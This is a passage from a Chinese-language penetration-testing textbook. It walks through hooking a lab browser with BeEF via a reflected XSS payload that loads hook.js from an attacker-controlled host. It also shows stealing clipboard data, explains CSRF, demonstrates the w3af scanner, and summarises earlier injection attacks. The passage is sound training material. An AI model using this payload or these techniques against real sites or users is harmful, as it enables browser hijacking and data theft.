图 14-24. BeEF 网页界面

目前没有浏览器被 BeEF 钩住，因此我们需要欺骗某人加载并运行 BeEF 的恶意*hook.js*脚本。让我们回到图书搜索框中的 XSS 漏洞。这次，我们不使用警告对话框，而是利用这个问题在目标浏览器中加载 BeEF 的*hook.js*。在 Windows 7 的 Internet Explorer 浏览器中，输入**`"<script src=http://192.168.20.9:3000/hook.js></script>"`**到图书搜索框，并点击**Go**。这次，用户不会看到任何警告框或其他提示，也没有任何迹象表明有什么问题，但如果你返回到 BeEF，你应该会在屏幕左侧的在线浏览器列表中看到 Windows 7 主机的 IP 地址，如图 14-25 所示。

在详细信息窗格中，选择 Windows 7 的 IP 地址后，你可以看到关于已钩住浏览器以及底层系统的详细信息，如版本和已安装的软件。在窗格顶部有额外的标签，如日志和命令。点击**命令**查看你可以在已钩住浏览器上运行的其他 BeEF 模块。

图 14-25. 已钩住的浏览器

例如，如图 14-26 所示，导航到**浏览器** ▸ **已钩住的域** ▸ **创建警告对话框**。在屏幕右侧，你可以选择更改警告文本。完成后，点击右下角的**执行**。

图 14-26. 运行 BeEF 模块

返回到你的 Windows 7 浏览器。你应该会看到如图 14-27 所示的弹出对话框。

图 14-27. 在已钩住的浏览器中触发警告

另一个有趣的 BeEF 命令允许你从 Windows 剪贴板窃取数据。在 Windows 7 系统上，将一些文本复制到剪贴板。现在在 BeEF 中，导航到命令模块树中的**主机** ▸ **获取剪贴板**。剪贴板上的文本将显示在右侧的命令结果窗格中，如图 14-28 所示。

图 14-28. 窃取剪贴板信息

在本节中，我们仅探讨了使用 BeEF 劫持浏览器的两个简单示例。其实我们可以做更多的事情。例如，我们可以利用目标浏览器作为跳板，开始通过 ping 扫描或端口扫描收集本地网络的信息。你甚至可以将 BeEF 与 Metasploit 集成。在渗透测试中，你可以将 BeEF 作为社交工程攻击的一部分。如果你能在客户的 Web 服务器上发现一个 XSS 漏洞，你可以通过将用户引导到他们信任的公司网站，而不是攻击者控制的网站，来提升你攻击的效果。

## 跨站请求伪造

跨站脚本攻击利用了用户对网站的信任，而另一种类似的漏洞类别，称为*跨站请求伪造（CSRF）*，则利用了网站对用户浏览器的信任。考虑以下场景：用户登录了一个银行网站，并且拥有一个有效的会话 Cookie。自然，用户还在其他标签页中浏览其他网站。用户打开了一个恶意网站，该网站包含一个框架或图像标签，触发了一个 HTTP 请求，向银行网站发送了正确的参数，以将资金转账到另一个账户（假设是攻击者的账户）。银行网站当然会检查用户是否已登录。发现用户的浏览器有一个有效的会话后，银行网站执行了请求中的命令，攻击者就窃取了用户的钱。用户当然没有发起该交易——他只是不幸地浏览到了一个恶意网站。

## 使用 w3af 进行 Web 应用扫描

使用工具进行测试自动化是困难的，特别是对于定制的应用程序。没有什么能与熟练的 Web 应用测试人员使用代理进行的测试相比。尽管如此，几个商业 Web 应用扫描工具以及一些免费的开源扫描工具可以自动化一些任务，例如爬行网站和查找已知的安全问题。

一个开源的 Web 应用扫描工具是*Web 应用攻击和审计框架（w3af）*。w3af 由多个插件组成，执行不同的 Web 应用测试任务，例如寻找 URLs 和参数进行测试，并测试有趣的参数以检测 SQL 注入漏洞。

现在启动 w3af，如下所示。

```
root@kali:~# w3af
```

w3af 的 GUI 将会启动，并且看起来类似于图 14-29。屏幕左侧是扫描配置文件。默认情况下，你处于一个空配置文件中，这允许你完全自定义针对目标运行哪些 w3af 插件。你还可以使用几个预配置的配置文件。例如，*OWASP_Top10*配置文件将使用发现部分的插件爬取应用，并运行来自审计部分的插件，查找来自开放 Web 应用安全项目（OWASP）十大漏洞类别的漏洞。输入要扫描的 URL，如图 14-29 所示，然后点击窗口右侧的**开始**按钮。

图 14-29. 使用 w3af

在扫描运行时，详细信息将显示在日志标签页中，发现的问题将添加到结果标签页中(图 14-30)。

图 14-30. w3af 结果

w3af 发现了我们在本章开头利用的 SQL 注入漏洞，以及一些值得添加到渗透测试报告中的小问题。你可以尝试其他 w3af 配置文件，或创建你自己的配置文件，自定义针对应用运行哪些插件。w3af 甚至可以进行凭证扫描，这时它会拥有一个与应用的活跃登录会话，从而可以访问额外的功能来查找问题。

## 总结

在本章中，我们简要地查看了一个示例应用中的常见 Web 应用漏洞，该应用没有进行必要的输入清理来防止许多攻击。我们的 bookservice 应用在其书籍详情页存在 SQL 注入漏洞。我们能够从数据库中提取数据，甚至获得系统命令 shell。

我们在基于 XML 的登录功能中发现了类似的注入漏洞。我们能够使用特制的查询绕过身份验证，并以*AuthInfo.xml*文件中存储的第一个用户身份登录。我们还能够利用新闻订阅页面查看 Web 应用中任意页面的源代码，包括认证信息——这是由于页面缺乏访问控制以及本地文件包含问题。我们通过将命令与注册新闻订阅的电子邮件地址连接，成功在系统上运行命令，并能够将命令输出写入文件，然后通过浏览器访问这些文件。我们还在搜索功能中发现了反射型 XSS 漏洞。我们利用 BeEF 框架来利用这个 XSS 问题，控制目标浏览器，从而在系统中获得了立足点。最后，我们简要地了解了一个开源 Web 漏洞扫描工具——w3af。

Web 应用程序测试值得比本书中能讨论的更多的关注。 本章中讨论的所有问题都在 OWASP 的网站上进行了详细讨论，*([`www.owasp.org/index.php/Main_Page/`](https://www.owasp.org/index.php/Main_Page/))*，这是继续学习 Web 应用程序安全的一个很好的起点。OWASP 还发布了一个易受攻击的应用程序 Webgoat，使用练习让用户亲身体验利用本章中以及其他问题的 Web 应用程序漏洞。通过 Webgoat 进行实践是你学习 Web 应用程序测试的一个很好的下一步。

另一个需要注意的事项是我们的应用程序是一个运行在 Windows 上的 ASP.net 应用程序。在你的渗透测试职业生涯中，你将遇到其他类型的应用程序，比如运行在 Linux 上的 Apache/PHP/MySQL 应用程序，或者是 Java Web 应用程序。你还可能会遇到使用 REST 和 SOAP 等 API 传输数据的应用程序。尽管由于缺乏输入校验所引起的基础问题可以出现在任何平台上，但特定的编码错误和利用这些错误的语法可能有所不同。随着你继续学习 Web 应用程序安全，务必熟悉不同种类的应用程序。
